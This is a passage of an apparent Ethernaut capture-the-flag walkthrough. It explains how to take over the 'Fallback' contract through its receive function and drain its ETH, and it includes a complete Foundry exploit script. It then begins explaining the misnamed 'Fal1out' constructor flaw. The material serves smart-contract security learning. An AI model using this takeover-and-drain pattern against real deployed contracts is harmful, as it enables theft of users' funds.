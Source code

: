 So, call the contribute function with some ETH (even 1 wei works) `contribute{value: 1 wei}()` and then, to increase the contributions do `address(fallbackIns).call{value: 1 wei}("")` this calls the receive() function. Once receive() is called with `msg.value > 0 && contributions[msg.sender] > 0` then the `owner` becomes the `msg.sender`.

For the second goal `Drain it's ETH` => Since you became the owner, just call the withdraw() function which drain all the ETH. And that's it the challenge has completed :)

This is the solution script `script/FallbackSolution.s.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Fallback.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract FallbackSolution is Script {
    
    Fallback public fallbackIns = Fallback(payable(0x4c949eF7B0BeBd67aDCaf8c0bB99af0908fCD0BC));

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        fallbackIns.contribute{value: 1 wei}(); // Call the contribute function with some wei
        (bool success, ) = address(fallbackIns).call{value: 1 wei}("");
        require(success, "Transaction failed");
        console.log("New Owner: ", fallbackIns.owner());
        console.log("My address: ", vm.envAddress("MY_ADDRESS"));
        fallbackIns.withdraw(); // Drain the contract's ETH by calling the withdraw function.

        vm.stopBroadcast();
    }
}
```

---
---
## 2. Fallout

The goal of this challenge is claim ownership of the contract. (As simple as that). Think as a hackers mindset, How can i claim the ownership of this contract? Is there any loopholes ???

This challenge uses the older version of the solidity compiler i.e, `pragma solidity ^0.6.0`.

In the older versions there is no specific constructor keyword. So the constructor is used as the contract's name itself in this case it's `Fallout`.

The contract’s constructor sets the owner as the msg.sender upon deployment.

Upon closer inspection, we discover that the `“so-called constructor”` in the Fallout smart contract is not a constructor. It is just a public payable function with a different name `“Fal1out”` (with 1 instead of l), and this function will not be automatically triggered upon contract deployment. Due to this, the owner remains set to address zero, and anyone can call this function to update the owner.
